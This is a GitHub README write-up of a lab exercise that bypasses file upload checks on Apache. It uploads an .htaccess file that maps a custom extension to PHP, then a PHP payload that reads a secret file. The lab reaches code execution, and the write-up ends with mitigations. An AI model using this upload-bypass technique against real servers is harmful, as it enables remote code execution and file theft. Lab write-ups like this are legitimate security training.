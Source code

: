 ````markdown
# 🛡️ File Upload Exploitation – Apache .htaccess Bypass

This project documents a successful file upload exploitation against a simulated vulnerable web application.  
The lab demonstrates how weak file upload validation can be bypassed to achieve **remote code execution (RCE)** using an `.htaccess` trick on an Apache server.

---

## 📑 Table of Contents
1. [Lab Overview](#-lab-overview)  
2. [Exploitation Walkthrough](#-exploitation-walkthrough)  
   - [Normal File Upload](#1-normal-file-upload)  
   - [Crafting Malicious Payload](#2-crafting-malicious-payload)  
   - [Identifying Server](#3-identifying-server)  
   - [Uploading `.htaccess`](#4-uploading-htaccess)  
   - [Uploading Exploit with New Extension](#5-uploading-exploit-with-new-extension)  
   - [Triggering RCE](#6-triggering-rce)  
3. [Security Impact](#-security-impact)  
4. [Recommended Mitigations](#-recommended-mitigations)  
5. [Proof of Exploit](#-proof-of-exploit)  
6. [Secret Obtained](#-secret-obtained)  
7. [Takeaways](#-takeaways)  

---

## 📖 Lab Overview
- **Target:** Web application with avatar upload functionality  
- **Vulnerability:** File upload restrictions + Apache `.htaccess` misconfiguration  
- **Impact:** Remote Code Execution → Secret file disclosure  

---

## ⚙️ Exploitation Walkthrough

### 1. Normal File Upload
- Logged in and uploaded an image as the avatar.  
- Observed the image was fetched with:

```http
GET /files/avatars/<YOUR-IMAGE>
````

### 2. Crafting Malicious Payload

Created a PHP file `exploit.php` to read Carlos’s secret:

```php
<?php
echo file_get_contents('/home/carlos/secret');
?>
```

* Attempt to upload failed → `.php` extension not allowed.

### 3. Identifying Server

The response from `POST /my-account/avatar` revealed:

```http
Server: Apache/2.4.41 (Ubuntu)
```

* Apache + mod\_php hinted at an `.htaccess` bypass.

### 4. Uploading `.htaccess`

Modified the upload request in Burp Repeater:

```text
- Changed filename → .htaccess
- Content-Type → text/plain
- File contents:
AddType application/x-httpd-php .l33t
```

* Uploaded successfully ✅

### 5. Uploading Exploit with New Extension

Reused the upload request:

```text
- Changed filename → exploit.l33t
- File contents → PHP payload
```

* Uploaded successfully ✅

### 6. Triggering RCE

Requested:

```http
GET /files/avatars/exploit.l33t
```

* Server executed PHP → Secret was disclosed:

```
FxPam6dKbign7PBPqaNxPRZ76HsNCXr3
```

---

## 🚨 Security Impact

* **Severity:** 🔴 High
* **Risk:** Arbitrary PHP execution on the server
* **Impact:** Unauthorized file disclosure, possible full system compromise

---

## 🔒 Recommended Mitigations

* Disable `.htaccess` overrides:

```apache
AllowOverride None
```

* Store uploads outside web root
* Strict MIME-type & extension validation (both client + server)
* Sanitize uploaded content before saving

---

## ✅ Proof of Exploit

<img width="957" height="1079" alt="Proof of exploit in Burp Repeater" src="https://github.com/user-attachments/assets/f15c03db-3747-4761-9709-d0349b92cd41" />

---

## 🗝️ Secret Obtained

```
FxPam6dKbign7PBPqaNxPRZ76HsNCXr3
```

---

## 📚 Takeaways

This lab highlights how **misconfigured servers + weak upload validation** can escalate into RCE.
Preventing such attacks requires **defense-in-depth**: secure configs, strict validation, and isolating user uploads.

```

---

